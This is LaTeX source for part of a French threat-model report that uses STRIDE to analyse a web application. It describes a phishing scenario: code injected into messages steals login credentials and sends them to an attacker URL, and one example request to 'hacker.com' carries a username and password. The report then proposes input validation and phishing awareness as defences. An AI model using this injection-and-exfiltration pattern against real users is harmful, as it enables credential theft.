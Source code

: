 \documentclass[a4paper,10pt]{article}
\begin{document}
        \paragraph{Impact sur l'entreprise} Moyen
        \paragraph{Source de menace} Hacker, Cybercrime, Concurrent
        \paragraph{Motivation} La motivation principal serait d'avoir accès au système.
        \paragraph{Actif ciblé} Utilisateurs (credentials)
        \paragraph{Scénario d'attaque} On peut directement injecter du code dans un message envoyé à plusieurs victimes qui permettra d'afficher une fenêtre avec un formulaire à l'intérieur. Le formulaire demande aux utilisateurs d'entrer leurs informations personnelles tels que leurs identifiants (username + mot de passe). Une fois le formulaire validé, les informations sont envoyées à une URL de l'attaquant. La requête se présente ainsi:
                        \begin{lstlisting}[language=html]
http://hacker.com/phishing.php?name=user3&password=12345
\end{lstlisting} 
        \paragraph{Contre-mesures} On peut contrôler les champs d'entrées utilisateurs d'un message (sujet + corps) afin d'éviter des insertions de code. Une aure contre-mesure pourrait être de la prévention sur le phishing pour les collaborateurs qui utilisent l'application web.
    \subsection*{STRIDE}
    Nous nous sommes basés sur le modèle STRIDE afin d'établir les scénarios ci-dessus. Nous avons premièrement représenté les différentes menaces auxquelles l'application web pourrait être vulnérable:
    
\end{document}
